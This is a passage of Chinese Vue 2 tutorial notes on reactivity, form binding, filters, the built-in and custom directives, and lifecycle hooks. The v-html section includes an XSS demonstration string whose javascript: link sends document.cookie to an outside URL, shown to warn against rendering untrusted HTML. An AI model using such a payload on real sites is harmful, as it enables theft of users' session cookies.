                                        Vue.set(target,key,val)
                                        target:要添加属性的对象
                                        key:属性
                                        val:值
                                        Vue.set()等效于vm.$set()
                                    */
                                    // Vue.set(this.student,'sex','男')
                                    this.$set(this.student,'sex','男')
                                }
                            }  
                })
        </script>
</body>
</html>
```


​	但需要注意的是，`Vue.set()`方法不允许添加一个响应式数据在vue上，即不能直接给`data`里添加数据，而是需要添加到`data`中的某一个属性对象中。如下面我们为学校信息添加`校长`，但学校信息被直接包含在vm中，这个时候添加就会报错：



​	如果要添加进去，必须将数据提取到一个对象中：

```html
<h2>学校信息</h2>
<h3>学校名称：{{school.name}}</h3>
<h3>学校地址：{{school.addr}}</h3>
<h3>校长：{{school.leader}}</h3>


school:{
        name:'城院',
        addr:'成都'
       }
```


##### 1.14.5.3.数据监视原理--数组

​	与对象的原理不同，Vue监视数组不是通过`get`,`set`来修改的，因为数组里没有`get`和`set`。Vue通过自己的数组的相关方法，如push()，pop()，shift()，unshift()，splice()，sort()，reverse()等方法来监视数组数据的变化。



- **注：这些方法是Vue变更数组的，不是数组原来的**。






- **总结：**

  ```
  Vue监视数据的原理：
     1. vue会监视data中所有层次的数据。
  
     2. 如何监测对象中的数据？
                 通过setter实现监视，且要在new Vue时就传入要监测的数据。
                    (1).对象中后追加的属性，Vue默认不做响应式处理
                    (2).如需给后添加的属性做响应式，请使用如下API：
                                Vue.set(target，propertyName/index，value) 或 
                                vm.$set(target，propertyName/index，value)
  
     3. 如何监测数组中的数据？
                    通过包裹数组更新元素的方法实现，本质就是做了两件事：
                       (1).调用原生对应的方法对数组进行更新。
                       (2).重新解析模板，进而更新页面。
  
     4.在Vue修改数组中的某个元素一定要用如下方法：
              1.使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
              2.Vue.set() 或 vm.$set()
     
     特别注意：Vue.set() 和 vm.$set() 不能给vm 或 vm的根数据对象 添加属性！！！
  ```

**数据监测总结练习：**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>vue使用模板</title>
		<style>
			button{
				margin-top: 10px;
			}
		</style>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="student.age++">年龄+1岁</button> <br/>
			<button @click="addSex">添加性别属性，默认值：男</button> <br/>
			<button @click="student.sex = '女' ">修改性别</button> <br/>
			<button @click="addFriend">在列表首位添加一个朋友</button> <br/>
			<button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
			<button @click="addHobby">添加一个爱好</button> <br/>
			<button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
			<button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
			<h3>姓名：{{student.name}}</h3>
			<h3>年龄：{{student.age}}</h3>
			<h3 v-if="student.sex">性别：{{student.sex}}</h3>
			<h3>爱好：</h3>
			<ul>
				<li v-for="(h,index) in student.hobby" :key="index">
					{{h}}
				</li>
			</ul>
			<h3>朋友们：</h3>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:18,
					hobby:['抽烟','喝酒','烫头'],
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				addSex(){
					// Vue.set(this.student,'sex','男')
					this.$set(this.student,'sex','男')
				},
				addFriend(){
					this.student.friends.unshift({name:'jack',age:70})
				},
				updateFirstFriendName(){
					this.student.friends[0].name = '张三'
				},
				addHobby(){
					this.student.hobby.push('学习')
				},
				updateHobby(){
					// this.student.hobby.splice(0,1,'开车')
					// Vue.set(this.student.hobby,0,'开车')
					this.$set(this.student.hobby,0,'开车')
				},
				removeSmoke(){
					this.student.hobby = this.student.hobby.filter((h)=>{
						return h !== '抽烟'
					})
				}
			}
		})
	</script>
</html>
```


### 1.15.收集表单数据

​	我们之前使用`v-model`收集过`<input type='text'>`中的数据，但在真实的表单提交中`type`属性还有很多，那么关于`type`的如`radio`，`checkbox`等其他属性和`<textarea>,<select>`等标签该如何实现表单数据呢？我们以下图表单提交为例：



```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- @submit.prevent表示阻止表单提交 -->
            <form @submit.prevent="demo">
                <!-- v-model.trim表示不收集空格 -->
                账号：<input type="text"  v-model.trim="userInfo.account"><br/>
                密码：<input type="password" v-model="userInfo.password"><br/>
                <!-- type="number"表示表单输入数字，是html技术
                     v-model.number表示控制提交数据为数字，因为默认输入是字符串
                -->
                年龄：<input type="number" v-model.number="userInfo.sex"><br/>
                性别：
                男<input type="radio" name="sex" v-model='userInfo.sex' value="male"> 
                女<input type="radio" name="sex" v-model='userInfo.sex' value="female"><br/>
                爱好：
                学习：<input type="checkbox" v-model="userInfo.hobby" value="study">
                打游戏：<input type="checkbox" v-model="userInfo.hobby" value="game">
                运动：<input type="checkbox" v-model="userInfo.hobby" value="sport">
                <br/><br/>
                所属校区：
                <select v-model="userInfo.city">
                    <option value="">请选择校区</option>
                    <option value="chengdu">成都校区</option>
                    <option value="meishan">眉山校区</option>
                </select>
                <br/><br/>
                其他信息：
                <!-- v-model.lazy表示失去焦点时才收集 -->
                <textarea v-model.lazy="userInfo.other"></textarea>
                <br/>
                <input type="checkbox" v-model="userInfo.agree">
                阅读并接受<a href="https://abc.oracleoaec.com/">《用户协议》</a><br/>
                <button>提交</button>
            </form>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                           userInfo:{
                                account:'',
                                password:'',
                                age:'',
                                sex:'male',
                                hobby:[],
                                city:'', 
                                other:'',
                                agree:''
                           }
                        },
                        methods: {
                            demo() {
                                // JSON.stringify()将数据转化为JSON
                                // console.log(JSON.stringify(this._data))
                                console.log(JSON.stringify(this.userInfo));
                            }
                        },
                        
                })
        </script>
</body>
</html>
```

**总结：**

```
收集表单数据：
      若：<input type="text"/>，则v-model收集的是value值，用户输入的就是value值。
      若：<input type="radio"/>，则v-model收集的是value值，且要给标签配置value值。
      若：<input type="checkbox"/>
            1.没有配置input的value属性，那么收集的就是checked（勾选 or 未勾选，是布尔值）
            2.配置input的value属性:
                  (1)v-model的初始值是非数组，那么收集的就是checked（勾选 or 未勾选，是布尔值）
                  (2)v-model的初始值是数组，那么收集的的就是value组成的数组
      备注：v-model的三个修饰符：
                  lazy：失去焦点再收集数据
                  number：输入字符串转为有效的数字
                  trim：输入首尾空格过滤
```


### 1.16.过滤器

​	我们前端工程师收集的时间是通过`Date.now()`来收集当前时间的，但此种方式只能收集到时间戳，可以通过原生JS的一些方法把它转换成年月日时分秒，也可以通过`计算属性`完成，当然，较为方便的是使用`过滤器`。使用过滤器需要引入第三方库，我们可以在开源库`https://www.bootcdn.cn/`搜索**`Moment.js`或`dayjs`**，此处我们下载较为轻量的`dayjs`：


`dayjs`的用法可参考github仓库`https://github.com/iamkun/dayjs`:




```js
dayjs()
  .startOf('month')
  .add(1, 'day')
  .set('year', 2018)
  .format('YYYY-MM-DD HH:mm:ss')
```

在文件中引入`dayjs.min.js`文件：

```js
<script src='../js/dayjs.min.js'></script>
```

以下面页面为例，我们使用格式化的方式显示当前时间：



```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
    <script src='../js/dayjs.min.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>显示格式化后的时间</h3>
            <h4>计算属性实现</h4>
            <h5>现在是：{{fmtTime}}</h5>
            <h4>methods实现</h4>
            <h5>现在是：{{getFmtTime()}}</h5>
            <h4>过滤器实现 |</h4>
            <h5>现在是：{{time | timeFormater}}</h5>
            <h4>过滤器实现(参数传递实现复用) |</h4>
            <!-- 过滤器可以通过管道符逐一传递 -->
            <h5>现在是：{{time | timeFormater('YYYY年MM月DD号') | mySlice}}</h5>
        </div>

        <div id="root2">
            <h4>{{msg | mySlice}}</h4>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 配置全局过滤器
                Vue.filter('mySlice',function(val){
                    return val.slice(0,4)
                })
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            time: 1675258591019 // 当前时间时间戳
                        },
                        computed:{
                            fmtTime() {
                                return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                            }
                        },
                        methods: {
                            getFmtTime() {
                                return dayjs(this.time).format('YYYY-MM-DD HH:mm:ss')
                            }
                        },
                        // 局部过滤器，只能#root这个容器能用
                        filters:{
                            /* 格式化会传递两个参数，第一个参数默认为管道符|前面的值
                                第二个参数是可以自己定义的格式化格式，可以用默认值参数形式传递 */
                            timeFormater(val,str='YYYY-MM-DD HH:mm:ss') {
                                // console.log(val);
                                return dayjs(val).format(str)
                            },
                            // mySlice(val) {
                            //     // 截取(0-4]
                            //     return val.slice(0,4)
                            // }
                        }
                }),
                new Vue({
                    el:"#root2",
                    data:{
                        msg:'hello Vue!!!'
                    }
                })
        </script>
</body>
</html>
```

**总结：**

```
过滤器：
   定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
   语法：
         1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
         2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
   备注：
         1.过滤器也可以接收额外参数、多个过滤器也可以串联
         2.并没有改变原本的数据, 是产生新的对应的数据
```


### 1.17.内置指令

​	之前我们已经学习了`v-bind,v-on,v-if`等指令，除此之外，Vue的作者还给我们定义了许多其他指令。

```text
v-bind	: 单向绑定解析表达式, 可简写为 :xxx
v-model	: 双向数据绑定
v-for  	: 遍历数组/对象/字符串
v-on   	: 绑定事件监听, 可简写为@
v-if 	: 条件渲染（动态控制节点是否存存在）
v-else 	: 条件渲染（动态控制节点是否存存在）
v-show 	: 条件渲染 (动态控制节点是否展示)
```


#### 1.17.1.v-text指令

`v-text`指令的作用是向其所在的结点渲染文本内容。

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3>你好，{{msg}}</h3>
            <h3 v-text="msg"></h3>
            <h3 v-text="str"></h3>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            msg:'Micheal',
                            str:'<h3>你好！！</h3>'
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

```
v-text指令：
      1.作用：向其所在的节点中渲染文本内容。
      2.与插值语法的区别：v-text会替换掉节点中的内容，{{xx}}则不会。
```


#### 1.17.2.v-html指令

​	与`v-text`不同，`v-html`支持标签结构的解析。但它存在一定的安全隐患。以下面页面为例：由于不是一个登录网页，我们可以打开网页，然后再开发者工具中打开应用，点击编辑输入`cookie`：


然后点击超链接（str2由标签包裹，并发送?传参），这时我们可以发现超链接会发现百度携带了我们在该网页输入的`cookie`值：



```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
				v-html指令：
						1.作用：向指定节点中渲染包含html结构的内容。
						2.与插值语法的区别：
									(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
									(2).v-html可以识别html结构。
						3.严重注意：v-html有安全性问题！！！！
									(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
									(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```


**总结：**

```
v-html指令：
      1.作用：向指定节点中渲染包含html结构的内容。
      2.与插值语法的区别：
               (1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
               (2).v-html可以识别html结构。
      3.严重注意：v-html有安全性问题！！！！
               (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
               (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！
```


#### 1.17.3.v-cloak指令

`v-cloak`指当网速过慢时，不让未经解析的模板显示到页面中去。它没有属性值，本质是一个属性，Vue示例创建完毕容器后，会删除掉`v-cloak`属性，使用css配合`v-cloak`可以解决由于网速过慢页面出现`{{xxx}}`的问题。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue使用模板</title>
		<style>
            <！--选中所有v-cloak属性-->
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'四川城市职业学院'
			}
		})
	</script>
</html>
```


#### 1.17.4.v-once指令

​	`v-once`指令是将网页在初次渲染后，就视为静态内容了，并不再改变。以下图为例：我们有一个初始值`n`为1，点击按钮`n+1`，但初始值不改变：



```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3 v-once>初始化n的值为：{{n}}</h3>
            <h3>点击后n的值为：{{n}}</h3>
            <button @click="n++">点击n+1</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            n:1
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

```
v-once指令：
         1.v-once所在节点在初次动态渲染后，就视为静态内容了。
         2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。
```


#### 1.17.5.v-pre指令

`v-pre`可以跳过结点的渲染过程，Vue不去解析，直接拿过来用。

```html'
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <h3  v-pre>Vue好用，好学</h3>
            <h3 v-pre>点击后n的值为：{{n}}</h3>
            <button v-pre @click="n++">点击n+1</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            n:1
                        }
                        
                })
        </script>
</body>
</html>
```

**总结：**

```
v-pre指令：
      1.跳过其所在节点的编译过程。
      2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。
```


### 1.18.自定义指令

​	除了Vue的作者给我们创建的内置指令外，我们也可以自己定义一些指令来完成特定的功能。自定义指令的指令名可以根据功能来自定义，如按以下两个需求来定义指令：

```text
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。  -- 函数式
需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。  -- 对象式
```

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
            <!-- 
                需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
                需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。 
            -->
            <h3>当前的n值是：<span v-text="n"></span></h3>
            <h3>扩大10倍后的n值是：<span v-big="n"></span></h3>
            <!-- <h3>扩大10倍后的n值是：<span v-big-number="n"></span></h3> -->
            <button @click="n++">点我n+1</button>
            <hr>
            <input type="text" v-fbind:value="n">
            <hr>
        </div>
        <div id="root2">
            <input type="text" v-fbind:value="x">
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 全局自定义指令(如果是函数式指令，第二个参数为function(){})
                Vue.directive('fbind',{
                                // 指令与元素成功被绑定时
                                bind(element,binding){
                                    // console.log('1');
                                    // 所有指令里的this都是window
                                    // console.log(this);
                                    element.value = binding.value
                                },
                                // 指令所在元素被插入页面时
                                inserted(element,binding){
                                    // console.log('2');
                                    element.focus()
                                },
                                // 指令所在的模板被重新解析时
                                update(element,binding){
                                    // console.log('3');
                                    element.value = binding.value
                                }
                            })
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        data: {
                            n:1,
                        },
                        directives:{
                            // 函数式
                            /* 
                                big函数何时被调用
                                    1.指令与元素成功被绑定时；
                                    2.指令所在的模板被重新解析时。
                            */
                            big(element,binding) {
                                // element表示big指令所在的结构标签
                                // binding是big绑定的信息，value就是它的值
                                // console.log(element,binding);
                                element.innerText = binding.value * 10
                            },
                            // 'big-number'(element,binding) {
                            //     // element表示big指令所在的结构标签
                            //     // binding是big绑定的信息，value就是它的值
                            //     // console.log(element,binding);
                            //     element.innerText = binding.value * 10
                            // },
                            /* fbind:{
                                // 指令与元素成功被绑定时
                                bind(element,binding){
                                    // console.log('1');
                                    // 所有指令里的this都是window
                                    // console.log(this);
                                    element.value = binding.value
                                },
                                // 指令所在元素被插入页面时
                                inserted(element,binding){
                                    // console.log('2');
                                    element.focus()
                                },
                                // 指令所在的模板被重新解析时
                                update(element,binding){
                                    // console.log('3');
                                    element.value = binding.value
                                }
                            } */
                        }
                        
                }),
                new Vue({
                    el: "#root2",
                    data: {
                        x: 1
                    }
                })
        </script>
</body>
</html>
```

**总结：**

```
一、定义语法：
         (1).局部指令：
                  new Vue({                                            new Vue({
                     directives:{指令名:配置对象}   或         directives{指令名:回调函数}
                  })                                                        })
         (2).全局指令：
                     Vue.directive(指令名,配置对象) 或   Vue.directive(指令名,回调函数)

二、配置对象中常用的3个回调：
         (1).bind：指令与元素成功绑定时调用。
         (2).inserted：指令所在元素被插入页面时调用。
         (3).update：指令所在模板结构被重新解析时调用。

三、备注：
         1.指令定义时不加v-，但使用时要加v-；
         2.指令名如果是多个单词，要使用kebab-case命名方式，不要用camelCase命名
```


### 1.19.生命周期

#### 1.19.1.生命周期概述

为了解Vue的生命周期，我们先完成以下页面来进行观察：页面字体的透明度在0-1之间变化


```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
                <h3 :style="{opacity}">欢迎学习Vue</h3>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data:{
                                opacity:1
                        },
                        // Vue完成模板的解析并把初始的真实DOM元素放入页面后(挂载完毕)调用mounted
                        mounted() {
                                setInterval(() => {
                                                this.opacity -= 0.01
                                                if(this.opacity <= 0)  this.opacity = 1 
                                        }, 20);
                        },
                        
                })
                // 通过外部定时器实现，但不推荐，生产下不会接收vm对象
                /* setInterval(() => {
                       vm.opacity -= 0.01
                       if(vm.opacity <= 0)  vm.opacity = 1 
                }, 20); */
        </script>
</body>
</html>
```

**总结：**

```
生命周期：
      1.又名：生命周期回调函数、生命周期函数、生命周期钩子。
      2.是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
      3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
      4.生命周期函数中的this指向是vm 或 组件实例对象。
```


#### 1.19.2.分析生命周期

​	我们在`1.19.1`中使用到了`mounted`这个声明周期函数，并且在这个函数调用之前和之后都调用了一些兄弟函数，那么这些兄弟函数又有哪些呢？我们先参照官网创建Vue示例的图示(https://v2.cn.vuejs.org/v2/guide/instance.html)：


```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root' :x="n">
            <h3>当前的n值是：{{n}}</h3>
            <button @click="add">点我n+1</button>
            <button @click="byebye">点我销毁vm</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                new Vue({
                        el: '#root',
                        // template:`
                        //     <div>
                        //         <h3>当前的n值是：{{n}}</h3>
                        //         <button @click="add">点我n+1</button>
                        //     </div>
                        // `,
                        data: {
                            n:1
                        },
                        methods:{
                            add() {
                                this.n += 1
                            },
                            byebye() {
                                console.log('byebye');
                                this.$destroy()
                            }
                        },
                        // 此方法初始化事件和生命周期，不会加载_data和n等值
                        beforeCreate() {
                            console.log('beforeCreate');  
                            // console.log(this); // 此处的this是Vue对象
                            // debugger;  调用，终止执行此行下的代码                   
                        },
                        // 数据开始代理监测，有了add方法和_data
                        created() {
                            console.log('created');
                            /* console.log(this);
                            debugger; */
                        },
                        beforeMount() {
                            console.log('beforeMount');
                            // console.log(this);
                            // debugger;
                            // 这里操作的DOM最终都不奏效
                            // document.querySelector('h2').innerText = '123';
                        },
                        mounted() {
                            console.log('mounted',this.$el);
                            // console.log(this);
                            // 此处操作DOM有效，但尽量避免该操作
                            // document.querySelector('h2').innerText = '123';
                        },
                        beforeUpdate() {
                            console.log('beforeUpdate')
                            // console.log(this.n)
                        },
                        updated() {
                            console.log('updated');
                        },
                        beforeDestroy() {
                            console.log('beforeDestroy');
                        },
                        destroyed() {
                            console.log('destroyed');
                        },
                        
                })
        </script>
</body>
</html>
```


**总结：**

```
常用的生命周期钩子：
      1.mounted: 发送ajax请求、启动定时器、绑定自定义事件、订阅消息等【初始化操作】。
      2.beforeDestroy: 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】。

关于销毁Vue实例
      1.销毁后借助Vue开发者工具看不到任何信息。
      2.销毁后自定义事件会失效，但原生DOM事件依然有效。
      3.一般不会在beforeDestroy操作数据，因为即便操作数据，也不会再触发更新流程了。
```

```html
<!DOCTYPE html>
<html lang='en'>
<head>
    <meta charset='UTF-8'>
    <meta http-equiv='X-UA-Compatible' content='IE=edge'>
    <meta name='viewport' content='width=device-width, initial-scale=1.0'>
    <title>vue使用模板</title>
    <!-- 引入vue -->
    <script src='../js/vue.js'></script>
</head>
<body>
        <!-- 准备一个容器 -->
        <div id='root'>
                <h3 :style="{opacity}">欢迎学习Vue</h3>
                <button @click="stop">点我停止变换</button>
        </div>
        <script>
                // 设置为 false 以阻止 vue 在启动时生成生产提示
                Vue.config.productionTip = false;
                // 创建Vue对象
                const vm = new Vue({
                        el: '#root',
                        data:{
                                opacity:1
                        },
                        methods: {
                            stop() {
                                // clearInterval(this.timer) // 点击还保留响应式
                                this.$destroy() // 暴力停止，直接杀死
                            }
                        },
                        // Vue完成模板的解析并把初始的真实DOM元素放入页面后(挂载完毕)调用mounted
                        mounted() {
                                this.timer = setInterval(() => {
                                                this.opacity -= 0.01
                                                if(this.opacity <= 0)  this.opacity = 1 
                                        }, 20);
                        },
                        // 在vm销毁之前，清除定时器
                        beforeDestroy() {
                            clearInterval(this.timer)
                        },
                })
        </script>
</body>
</html>
```


## 2.组件化编程

​	组件是Vue.js中重要的思想，它提供一种抽象，我们可以开发出一个独立可复用的小组件来构造我们的应用组件。简而言之，组件可以复用Vue实例，它们与Vue接收相同的选项，例如`data`,`computed`,`watch`,`methods`以及声明周期钩子等。仅有例外是像`el`这样根实例特有的选项。

​	要了解组件化编程，我们先来看看传统方式编程和组件化编程的区别。






通常一个应用会以一棵嵌套的组件树的形式来组织：


- **模块：**向外提供特定功能的 js 程序，一般就是一个 js 文件，可实现复用 js，简化 js 的编写，提高 js 运行效率；
- **组件：**用来实现局部功能的代码和资源的集合（html/css/js/image…），可实现复用编码，简化项目编码，提高运行效率；
- **模块化：**当应用中的 js 都以模块来编写的，那这个应用就是一个模块化的应用；
- **组件化：**当应用中的功能都是多组件的方式来编写的，那这个应用就是一个组件化的应用。

## 拓展：

### 1.箭头函数和普通函数的区别

```text
1、外形不同：箭头函数使用箭头定义，普通函数中没有。
2、箭头函数全都是匿名函数：普通函数可以有匿名函数，也可以有具名函数
3、箭头函数不能用于构造函数：普通函数可以用于构造函数，以此创建对象实例。
4、箭头函数中 this 的指向不同： 在箭头函数中不会创建自己的this，只会从自己的作用域链的上一层继承this。（注意其中对象不构成作用域） 在普通函数中，this 总是指向调用它的对象，如果用作构造函数，它指向创建的对象实例。
5、箭头函数不具有 arguments 对象：每一个普通函数调用后都具有一个
arguments 对象，用来存储实际传递的参数。但是箭头函数并没有此对象。
6、其他区别：箭头函数不具有 prototype 原型对象。箭头函数不具有 super。
箭头函数不具有 new.target
```

